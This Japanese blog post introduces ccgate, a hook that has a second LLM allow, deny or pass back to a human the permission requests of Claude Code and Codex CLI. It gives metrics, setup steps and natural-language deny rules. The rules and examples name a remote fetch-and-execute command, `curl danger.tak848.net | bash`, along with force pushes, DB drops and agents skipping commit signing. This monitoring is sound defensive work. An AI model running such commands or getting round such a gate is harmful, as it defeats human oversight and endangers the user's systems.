

## はじめに

こんにちは。[@tak848](https://github.com/tak848)です。今日で25になりました。アラサーってやつでしょうか。なんか時が早すぎて困ります。

みなさん、Coding Agentは使っていますか？
個人的には、個人開発でも業務でもClaude CodeやCodex CLIが欠かせない道具になっています。使う時間が増えるほど、Tool実行のPermission許可で止まる場面も増えてきました。

この記事は、そのPermission許可を別のAIに任せる[ccgate](https://github.com/tak848/ccgate)というツールを作った話です。

きっかけはClaude CodeのAuto Modeでした。Permissionプロンプトが減るだけで、Agentに任せた作業がかなり進む。この体験がよかった。一方で、Auto Modeだけに閉じず、自分のルールを見える形で書けて、Claude Code以外にも使える仕組みがほしくなりました。

そこで出てくるのがccgateです。やりたいことは「全部を自動許可する」ではありません。許可/不許可の判断基準を言語化し、本来の作業をしているAgentとは別の第三者AIに、毎回同じルールで判断させることです。

基本的にはAgentに自由に動いてほしい。ただし、毎回同じような危ない逸脱だけは止めたい。この発想を、Claude CodeとCodex CLIのPermissionハンドリングに乗せたのがccgateです。

## 何を解決したかったのか

Permission promptはもちろん大事な安全装置です。Claude Codeにファイル編集やコマンド実行を任せていると、かなりの頻度で「このToolを実行していいですか？」と聞かれます。

ただ、長めのタスクを任せて少し離席し、戻ってきたらexplore agentが別のcheckoutを読みにいこうとして止まっていることがあります。あるいは、`&&`や`$()`を含む複合コマンドが静的ルールではうまく解釈されず止まっていることもあります。任せたはずの作業が、Tool利用の確認で止まり続けるとつらいです。

一方で、面倒だからといって`--dangerously-skip-permissions`に倒すのも怖いです。`gh`も使えるし、ローカルDBを壊すことはあるし、ネットワークにも出られます。AIエージェントが何かを勘違いしたときに、ホスト環境で全部通るのはさすがに緊張感があります。

ただ、実際に何度も許可/不許可をしていると、「この操作は許可してよい」「これは止めたい」という判断基準は意外と言語化できることに気づきます。

たとえば、リポジトリ内のread-onlyな調査、プロジェクトに定義されたtestやlintの実行、feature branch上の普通のgit操作はだいたい通したいです。
一方で、`python` / `python3`の直接実行、task runnerに定義されていない独自スクリプト実行、`npx`や`pnpx`での一発実行は止めたいです。リポジトリ外への編集、ローカルDBのmigrate-downやdrop、force push、本番っぽい環境への変更も止めたいです。

セキュリティ監査を軽く見る話ではありません。ちゃんとした監査やsandboxingはもちろん別で必要です。そのうえで、Permission promptの場で毎回やっている判断には、比較的客観的に言える部分があります。

たとえば「この操作は現在の作業文脈で自然か」「ローカルの開発作業に閉じているか」「既存のtask runnerを使っているか」「不可逆・外部影響・権限昇格に寄っていないか」くらいの判断です。

問題は、この判断を人間が毎回やることです。1日に何十回、多い日は100回以上もPermission promptを見ると、よくないことですが、どうしても目が滑ります。結局、反射でYesを押したり、同じような理由でNoを押して、また同じ説明をAIに投げたりしがちです。

「こういうコマンドはやめて」とルール用のMarkdownに書いても、Agentは長い作業の途中で忘れます。だったら、第三者AIに毎回同じルールで見てもらう。人間が作業中に毎回判断するより、同じ基準で淡々と見続けられます。拒否するときも理由を返せば、元のAgentに「なぜダメなのか」「代わりにどうすればよいのか」を伝えられます。

Tool利用のハーネスで止まり続けるのではなく、必要なところだけ薄くゲートを置きたい。

## ccgateとは

ccgateは、もともとClaude Codeの`PermissionRequest` hookとして作った小さなGo製CLIです。
v0.6でCodex CLIにも対応し、Claude CodeとCodex CLIのPermissionハンドリングを同じ考え方で扱えるようにしました。

ざっくり言うと、Claude CodeやCodex CLIがユーザーにPermission確認を出す直前にccgateが呼ばれ、その操作をLLMに判定させます。結果として、`allow` / `deny` / `fallthrough`のいずれかを元のAI coding toolに返します。



大事なのは、ccgateは「全部を自動許可するツール」ではないことです。

安全そうな操作は通します。危なそうな操作は理由付きで拒否します。判断が難しいものは`fallthrough`して、今まで通りユーザーに確認を返します。

| 判定 | 何をするか | 使いどころ |
| --- | --- | --- |
| `allow` | 元のTool実行を許可する | read-only調査やプロジェクト定義のtestなど、文脈上自然な操作 |
| `deny` | 理由付きで拒否する | `curl | bash`、リポジトリ外編集、force pushなど止めたい操作 |
| `fallthrough` | 上流のPermission promptへ戻す | 本当に判断が難しい操作や、最後だけ人間が見たい操作 |

つまり、やりたいことは「Permissionを消す」ではなく、「毎回人間が押していたグレーゾーンの判断を、できるだけ文脈つきで自動化する」です。

## きっかけになったAuto Mode

冒頭にも書いた通り、このツールを作った直接のきっかけは、Claude Codeの[Auto Mode](https://claude.com/blog/auto-mode)でした。

Auto Modeは、Claude CodeのTool実行を別のclassifierが事前にチェックし、安全と判断した操作はPermissionプロンプトなしで通し、危険そうな操作はブロックするモードです。Anthropicの[engineering blog](https://www.anthropic.com/engineering/claude-code-auto-mode)では、プロンプト疲れと`--dangerously-skip-permissions`の間を埋める仕組みとして説明されています。

技術書典20向けの原稿を書いていた2026年3月30日時点では、私のMax環境ではAuto Modeを使えませんでした。使えたタイミングも一瞬あり、そのときに「Permissionプロンプトが消えるだけで、こんなに作業が進むのか」とかなり感動しました。

ただ、2026年4月28日時点では状況が変わっています。公式の[Permission modes](https://code.claude.com/docs/en/permission-modes)によると、Auto ModeはClaude Code v2.1.83以降で利用でき、対象プランはMax、Team、Enterprise、APIです。ただしProでは使えません。また、Team / Enterpriseでは管理者による有効化が必要で、モデル条件もあります。MaxではOpus 4.7のみ、Team / Enterprise / APIではSonnet 4.6、Opus 4.6、Opus 4.7が対象とされています。Bedrock、Vertex、Foundryでは利用できないとも書かれています。

つまり、技術書典の原稿に書いた「当時使えなかった」は当時の事実ですが、現在の利用条件は変わっています。

では、Auto Modeがあるならccgateはいらないのか？

自分の結論は「Auto Modeはまず使う価値がある。ただ、ccgateにはAuto Modeとは違う価値がある」です。

## Auto Modeとccgateの違い

Auto ModeはClaude Code本体に組み込まれたモードです。公式の仕組みなので、Claude Codeの内部のPermission評価やsubagentの扱いと深く統合されています。たとえば公式ドキュメントによると、Auto Modeでは広すぎる`Bash(*)`などのallowルールがdropされ、read-only操作や作業ディレクトリ内のファイル編集はclassifierを通さずに自動許可されます。また、classifierが3回連続、または合計20回ブロックすると通常のPermissionプロンプトへフォールバックします。

このあたりは外部hookでは再現しづらいです。Auto Modeはかなりちゃんと作られています。

一方、ccgateはClaude Codeの[hooks](https://code.claude.com/docs/en/hooks)に乗った外付けのゲートです。強みは少し違います。

| 観点 | Auto Mode | ccgate |
| --- | --- | --- |
| 位置づけ | Claude Code本体のpermission mode | `PermissionRequest` hook |
| 判定対象 | Auto Modeに入っている間のTool実行 | 通常ならPermission確認が出る直前の操作 |
| 判定結果 | 基本は許可 or ブロック | `allow` / `deny` / `fallthrough` |
| わからない時 | classifier側で判断、または一定回数後にフォールバック | その場で`fallthrough`してユーザー確認に戻せる |
| ルール | `autoMode.environment` / `allow` / `soft_deny` | jsonnetの`allow` / `deny` / `environment` |
| メトリクス | Claude Code側のUIやログに依存 | `ccgate claude metrics` / `ccgate codex metrics`で集計できる |
| Plan mode中 | Plan mode自体はPermissionプロンプトが通常通り出る | PermissionRequestに来たものを判定できる |

特に自分にとって大きかったのは、Plan mode中にも効かせられることと、`fallthrough`を持てることでした。

Claude CodeのPlan modeは「まず調べて計画してね」というモードですが、公式ドキュメントにもある通り、Permissionプロンプト自体はdefault modeと同じように適用されます。調査中のAgentが`rg`、`find`、`git`を組み合わせたり、`&&`や`$()`を含むコマンドで動き回ったりすると、それだけで確認が増えます。

ccgateはPermissionRequest hookなので、Plan mode中に確認へ流れてきた操作も判定できます。もちろん、Plan modeでの正しさはccgate側のプロンプトによる制御であり、完全な保証ではありません。ここはccgateの既知の限界です。それでも、自分の作業では「調査しておいて」と投げて、戻ってきたらかなり進んでいる体験に近づきました。

## Codex CLIでも同じ問題が出てきた

ここまでClaude Codeの話を中心に書いてきましたが、許可判断をどう扱うかはClaude Codeだけの問題ではありません。
Codex CLIは、自分の体感ではデフォルトでもそこそこ自動で進む寄りです。自分はsandboxを使いつつ、network accessは許可する設定で使っています。その状態だとClaude Codeほど大量にapproval promptが出るわけではありません。

ただ、Codex CLIもapproval policyやsandboxの範囲で通せるものは進み、リスクが高い、または追加の承認が必要と判断されたところでapproval promptが出ます。つまり、普段は自動で進みつつ、リスクが高そうなところだけ人間に判断が戻ってきます。これは良い設計です。本来そこは丁寧に見るべき場所です。しかし、実際には作業の流れの中で雑に許可してしまうこともあります。

ここも、Claude Codeと同じように判断基準を言語化できます。ローカルのread-only調査やプロジェクト定義のtestは通したい。`curl | bash`、リポジトリ外の破壊的操作、意図しない外部通信、ローカルDBを壊しそうな操作は止めたい。Codex CLIのデフォルト挙動を否定したいわけではなく、最後に人間へ戻ってきた判断を、より一貫したルールに寄せたいという話です。

タイミングよく、OpenAI Codex側にも`PermissionRequest` hookが入りました。
[openai/codex#17563](https://github.com/openai/codex/pull/17563)は2026年4月17日にmergeされており、公式の[Codex hooks docs](https://developers.openai.com/codex/hooks)にも`PermissionRequest`が載っています。

公式ドキュメントによると、Codexのhooksは`config.toml`でfeature flagを有効にして使います。

```toml
[features]
codex_hooks = true
```

`PermissionRequest`は、Codexが通常のapproval promptを出そうとしたタイミングで発火します。
hookは`allow`、`deny`、または判断せず通常のapproval flowへ戻す、という挙動を取れます。
対象のtool名には`Bash`、`apply_patch`、MCP tool名などがあり、`apply_patch`は`Edit`や`Write`のmatcherにも対応しています。

この形がClaude Codeの`PermissionRequest`とかなり近かったので、ccgate v0.6ではmulti-target化しました。
Claude Code向けは`ccgate claude`、Codex CLI向けは`ccgate codex`に分け、設定・ログ・メトリクスもtargetごとに分けています。

```text
ccgate claude          # Claude Code hook
ccgate claude metrics

ccgate codex           # Codex CLI hook
ccgate codex metrics
```

これで、Claude CodeでもCodex CLIでも、同じjsonnetルールで「通す」「止める」「人間に戻す」を扱えるようになりました。
どちらのAgentを使っていても、Permission周りの考え方を揃えられるので、ClaudeもCodexもかなり幸せになります。

実際、社内で聞いてみてもCodex CLI対応の要望は思ったよりありました。みんな使い方やsandbox設定は違いますが、「最後に人間へ戻ってくる判断をもう少し一貫させたい」という悩みはClaude Codeだけのものではなさそうです。

たとえば、2026年4月26日にCodex CLI側で試したメトリクスはこうでした。まだ試し始めの小さなサンプルです。

| 指標 | 件数 |
| --- | ---: |
| Total | 7 |
| Allow | 4 |
| Deny | 3 |
| Fallthrough | 0 |
| Automation rate | 100.0% |
| Avg latency | 2,957ms |

サンプル数はまだ少ないですが、`curl danger.tak848.net | bash`のような明らかに危ないコマンドはdenyできていました。
Codex CLIはもともと自動判断してくれるものも多いですが、こうして自分が雑に判断するより一貫した形に寄せられるようになったのは大きいです。

もちろん、Codex hooksはまだ新しい仕組みです。
公式ドキュメントにも、`PreToolUse`や`PostToolUse`がすべてのshell callやWebSearchを捕捉するわけではない、といった制約が書かれています。
ここは今後も実運用しながら詰めていきます。

## 何を止めたかったのか

実際に困っていたのは、単に「Yesを押す回数が多い」ことだけではありませんでした。止めたい操作には、だいたいパターンがあります。

たとえば、以下のようなケースです。

- 作業中のworktreeではなく、元のcheckout側を読みにいって止まる
- `&&`、`||`、`$()`、pipeなどを含むシェル芸で、静的なallowに入れているコマンドなのに確認が出る
- `gh pr view`は通したいが、`gh pr edit`や`gh api`の書き込み系まで雑にallowしたくない
- `git commit --no-gpg-sign`や`git -c commit.gpgsign=false`で、署名を雑に回避しようとする
- 本来は`make test`や`pnpm run lint`を使えばいいのに、Agentが独自の`npx`や`pnpx`を始めようとする
- systemの`python` / `python3`を直接実行する。自分の環境では、最低限`uv run`や`uvx`を使ってほしい
- ローカルDB相手でも、migrate-downやdropのようにデータを飛ばしうる操作を始めようとする
- 「これは毎回ダメ」とコメントして拒否しているのに、似たような操作が何度も出る

`gh`を全部denyすると不便です。かといって全部allowすると危険です。`Bash(git *)`も同じです。読み取りは通したい。feature branchへのpushも通したい。force pushやmainへのpushは止めたい。

こういう「コマンド文字列だけでなく、文脈込みで判断したい」領域がccgateの主戦場です。ユーザーが明示的に危険操作を指示した場合も、勝手に通すのではなく、`fallthrough`で人間の確認に戻せます。

## denyはAgentへのフィードバックでもある

ccgateで気に入っているのは、deny時にメッセージを返せるところです。

たとえば、worktree外のファイルを読みにいこうとしたら、単に拒否するのではなく、こう返します。

```text
ワークツリー外のチェックアウトにアクセスしようとしています。現在のワークツリー内のパスを使用してください。
```

このメッセージはClaude Code側に返るので、Agentは「別のパスで読めばよい」と理解してリトライできます。

人間がPermissionプロンプトでNoを押しても、理由が弱いと同じような操作を繰り返されがちです。ccgateではdeny理由をルール側に書いておけるので、毎回同じ注意を人間が打たなくてよくなります。

これは「安全のために止める」というより、「正しい作業経路へ誘導する」に近いです。

## 実際どれくらい自動化されたか

自分の環境で`ccgate claude metrics`を見たところ、2026年4月1日から4月28日までに、Claude Code側だけで2,038件のPermissionRequest相当の判定がありました。

内訳は以下です。

| 指標 | 件数 |
| --- | ---: |
| Total | 2,038 |
| Allow | 1,725 |
| Deny | 189 |
| Fallthrough | 113 |
| Error | 11 |
| Automation rate | 93.9% |

エラー込みで93.9%なので、エラーが少ない日は97%から100%近くまで自動化されている日もあります。多い日では1日236件、別の日にも224件や201件の判定がありました。これを全部自分で押していたら、かなりの集中力が削られていたと思います。

しかも、単に許可しているだけではなく、189件はdenyされています。自分のログでは、リポジトリ外への編集、ローカルDBを壊しうる操作、PR本文の直接編集、作業ディレクトリ外でのコマンド実行などが上位に出ていました。社内固有のパスやプロジェクト名をそのまま出すわけにはいきませんが、「便利になった代わりに全部通っている」わけではないことは確認できています。

fallthroughも失敗ではありません。たとえば2026年4月26日のClaude側ログでは、62件中2件がfallthroughでした。自分の設定では、ローカルDBのmigrate-downのように、ローカル相手でも急にデータが飛ぶと困る操作は人間に戻すことがあります。

metricsを見てルールを調整できるのも便利です。read系のMCP操作がよく発火していることがわかったら、引数評価がいらないものは静的allowに寄せる、逆に危ないものはdenyに寄せる、という改善ができます。

平均レイテンシは自分の直近ログではおおむね3秒台でした。自分には十分許容範囲です。人間が3秒でPermission promptに返事をしているとしたら、正直それはほとんど見ていない気がします。だったら、LLMに理由付きで判断させた方が、自分の運用には合っていました。

## 使い方

最新の手順は[README](https://github.com/tak848/ccgate)を見てください。ここではClaude Code向けの最短だけ載せます。

インストールはmise経由を推奨しています。

```bash
mise use -g aqua:tak848/ccgate
```

次に、`~/.claude/settings.json`の`PermissionRequest` hookにccgateを登録します。

```json
{
  "hooks": {
    "PermissionRequest": [
      {
        "matcher": "",
        "hooks": [
          {
            "type": "command",
            "command": "ccgate claude"
          }
        ]
      }
    ]
  }
}
```

最後に、Anthropic API keyを設定します。

```bash
export CCGATE_ANTHROPIC_API_KEY=...
```

または`ANTHROPIC_API_KEY`でも動きます。

設定ファイルなしでも組み込みのデフォルトルールで動きます。カスタマイズしたい場合は、デフォルトを吐き出して編集します。

```bash
ccgate claude init > ~/.claude/ccgate.jsonnet
```

プロジェクトごとのルールを足したい場合は、未追跡のローカル設定として置けます。

```bash
ccgate claude init -p > .claude/ccgate.local.jsonnet
```

Codex CLI側では`ccgate codex`、`ccgate codex init`、`ccgate codex metrics`を使います。Codex hooks側の設定は公式の[Codex hooks docs](https://developers.openai.com/codex/hooks)も見てください。

## ルールは自然言語で書く

ccgateの設定はjsonnetです。`allow`、`deny`、`environment`を自然言語で書きます。

たとえば、次のようなイメージです。

```jsonnet
{
  environment: [
    'This repository is a trusted local development repository.',
    'Use project-defined task runners such as make, pnpm, mise, or task when available.',
  ],

  allow: [
    'Read-only inspection commands inside the current repository are allowed.',
    'Running project-defined lint, test, build, and format commands is allowed.',
    'Read-only GitHub CLI operations such as viewing pull requests are allowed.',
  ],

  deny: [
    'Do not run one-shot remote package execution such as npx, pnpx, bunx, or curl | bash. deny_message: リモートコードの直接実行は許可しません。リポジトリに定義されたコマンドを使ってください。',
    'Do not access sibling checkouts when running inside a git worktree. deny_message: 現在のワークツリー内のパスを使ってください。',
    'Do not force push or push directly to protected branches. deny_message: gitの破壊的操作です。ユーザーの明示的な確認に戻してください。',
    'Do not run local database rollback, drop, or destructive migration commands without explicit user confirmation. deny_message: ローカルDBでもデータを破壊しうる操作なので、ユーザー確認に戻してください。',
  ],
}
```

ポイントは、LLMに丸投げするのではなく、自分の環境の「何を信頼するか」「何は毎回止めたいか」を言語化することです。

たとえば、自分は「プロジェクトに定義されたtask runnerを使え」という方針を強めに書いています。AIエージェントは、目的を達成しようとして独自のコマンドを組み立てがちです。もちろん賢いのですが、チームの開発環境にはすでに`make`、`pnpm run`、`mise run`、`task`などの入口が用意されていることが多いです。

それを使わせるだけで、謎の直接DB操作や、急な`npx`や、意味のない`cd`をかなり減らせます。

## fallthrough_strategyで無人実行にも寄せられる

デフォルトでは、ccgateが判断に迷った場合は`fallthrough`して元のPermission / approval promptに戻します。対話しながら使うならこれが安全です。
これは「自動化できなかった失敗」ではなく、意図した逃げ道です。

たとえば、LLMが本当に判断できない操作は人間に戻したいです。また、自分のdotfilesでは、draft PRを作る最終段階のような「基本的にはやってほしいが、最後の公開操作だけは人間が見る」ケースを意図的に`fallthrough`させています。
全部をallow / denyに倒すより、最後に人間へ戻す余地を残せる方が、普段使いでは扱いやすいです。

ただ、スケジューラやbotのように人間がクリックできない環境では、`fallthrough`した時点で止まってしまいます。

そのため、ccgateには`fallthrough_strategy`があります。

```jsonnet
{
  fallthrough_strategy: 'deny',
}
```

`deny`にすると、LLMが迷った操作を自動拒否します。`allow`も選べますが、これはかなり強い設定です。LLM自身が迷った操作を通すことになるので、自分は無人実行でも基本は`deny`寄せがよいと思っています。

このへんも`ccgate claude metrics`や`ccgate codex metrics`で後から確認できます。`F.Allow`や`F.Deny`の列を見ると、fallthroughが強制的にallow / denyへ寄せられた回数がわかります。

## Auto Mode時代にも、手元のガードレールを持ちたい

Auto Modeはかなり良いです。使える環境ならまず試す価値があります。

ただ、個人的には「自分の手元に、透明でシンプルな第三者審査を置ける」ことにも価値を感じています。

Auto Modeの公式ドキュメントでは、`autoMode.environment`で信頼するリポジトリ、bucket、domainなどを設定でき、`allow`や`soft_deny`も自然言語で追加できます。Auto Modeにも第三者classifierの良さはあります。一方で、公式ドキュメントにもある通り、Auto ModeのclassifierはClaude Code本体側の仕組みです。どんなプロンプトで、どの粒度でログに残し、どう改善していくかは基本的にClaude Code側に寄ります。

ccgateは外付けなので、判定ルール、ログ、メトリクス、プロジェクトごとの差分を自分で管理できます。Auto Modeだけでなく、通常のPermission prompt、Plan mode中のexplore agent、複合コマンドのsearch、Codex CLIのapproval promptにも同じ考え方を展開できます。

どちらが上位互換という話ではありません。

本体に深く統合されたAuto Modeと、ユーザーが自分の環境に合わせて置けるccgateでは、得意な場所が違います。自分は、Auto Modeが使える場面でも、Plan mode中のPermission削減、Claude CodeとCodex CLIで共通する作業ルールの実験、メトリクスを見ながらのルール改善にはccgateが便利だと感じています。

## 注意点

ccgateは安全を保証する仕組みではありません。

まず、LLM判定なので誤判定はありえます。強い境界が必要なものは、Claude Codeの`permissions.deny`やmanaged settings、sandboxingで守るべきです。公式ドキュメントでも、Permissionとsandboxingは別の防御層として説明されています。

次に、API keyとAPIコストが必要です。ccgateはデフォルトでClaude Haikuを使いますが、判定のたびにAPI callが発生します。自分のログでは体感上かなり許容範囲ですが、重いCIや大量の無人実行に入れるならメトリクスを見ながら調整したほうがよいです。

また、Plan modeの正しさはプロンプトに依存しています。ccgateはPlan mode中の副作用を避けるように判定しますが、hard guaranteeではありません。ここは[Issue #37](https://github.com/tak848/ccgate/issues/37)として扱っています。

最後に、Auto Mode、Claude Code hooks、Codex hooksの仕様はかなり速く変わっています。この記事の仕様に関する事実は、2026年4月28日時点で公式ドキュメントを確認した内容に基づいています。
使う前には、[Permission modes](https://code.claude.com/docs/en/permission-modes)、[Configure auto mode](https://code.claude.com/docs/en/auto-mode-config)、[Claude Code hooks](https://code.claude.com/docs/en/hooks)、[Codex hooks](https://developers.openai.com/codex/hooks)を確認してください。

## 技術書典の本もあります

Auto Modeの仕組みや、Permission hookで自前のガードレールを作る設計思想は、技術書典20で出版した[LayerX Tech Book Vol.2](https://techbookfest.org/product/jbe1zdnjqbb6cHwebRhapn?productVariantID=3VefBkLxtiAHJr1vAHjJMY)にも書きました。

そちらは、Auto Modeの発表直後にかなり調べて、Permission評価の流れ、classifierの考え方、hookでどこまで再現できるかをもう少し丁寧に書いています。ただし、先ほど書いた通りAuto Modeの利用条件などは2026年3月30日時点の情報です。現在の正確な条件は公式ドキュメントを見てください。

Tech Book全体としても、プロダクト組み込みにおけるプロンプトチューニングの話、AI組み込み、Slackアプリ、イベント配信の裏側など、LayerXのいろいろな実践が詰まっています。よければぜひ。

## おわりに

AIエージェントを使う時間が増えるほど、「何をさせるか」だけでなく、「どこまで自動でやらせるか」を設計する必要が出てきます。

Permissionプロンプトは安全のために必要です。しかし、毎回流れでYesを押しているなら、それは安全装置としても体験としても中途半端です。一方で、全部をbypassするのも怖い。

ccgateは、その間に置くための小さなゲートです。

自分の環境では、2026年4月1日から4月28日までのClaude Code側判定で93.9%が自動化され、denyやfallthroughもちゃんと機能していました。体感としても、Claude Codeに長めの調査や実装を任せたときの「戻ってきたら止まっていた」がかなり減りました。Codex CLIでも、同じ考え方を使えるようになっています。

Permission許可に疲れているけど、`--dangerously-skip-permissions`には倒したくない人は、ぜひ試してみてください。

https://github.com/tak848/ccgate
